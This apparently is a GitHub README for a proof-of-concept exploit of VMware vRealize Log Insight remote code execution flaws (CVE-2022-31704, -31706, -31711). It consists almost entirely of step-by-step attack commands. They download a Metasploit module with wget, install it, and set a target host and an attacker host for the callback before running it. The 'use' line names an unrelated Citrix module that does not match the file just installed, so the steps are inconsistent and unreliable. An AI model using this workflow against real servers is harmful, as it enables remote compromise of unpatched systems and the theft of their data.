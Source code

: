 # CVE-2022-31704, CVE-2022-31706, CVE-2022-31711
![](https://img.shields.io/static/v1?label=Product&message=VMWare%20vRealize%20Log%20Insight&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C8.10.2&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


### Metasploit Framework 
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2022/VMware_vRealize_Log_Insight/vmware_vrli_rce.rb
```

```
cp vmware_vrli_rce.rb /usr/share/metasploit-framework/modules/exploits/linux/http/vmware_vrli_rce.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/freebsd/http/citrix_formssso_target_rce
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
